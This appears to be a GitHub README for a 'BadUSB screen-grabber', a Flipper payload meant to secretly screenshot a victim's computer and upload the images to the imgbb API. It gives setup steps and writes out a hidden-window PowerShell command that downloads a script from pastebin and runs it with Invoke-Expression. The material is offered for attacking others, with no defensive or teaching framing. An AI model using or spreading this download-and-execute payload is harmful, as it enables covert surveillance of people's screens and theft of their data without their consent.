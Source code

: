 # BadUSB screen-grabber
## Automatically creates screenshots on victims computer and sends them to imgbb api

* Modify ssgrab.ps1 and change `API KEY` to the API key you can find on https://imgbb.com/api
* Upload ssgrab.ps1 to pastebin
* Modify `powershell -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadString('PASTEBIN LINK') | Invoke-Expression` in payload.txt so that it has your pastebin link as raw and upload to Flipper
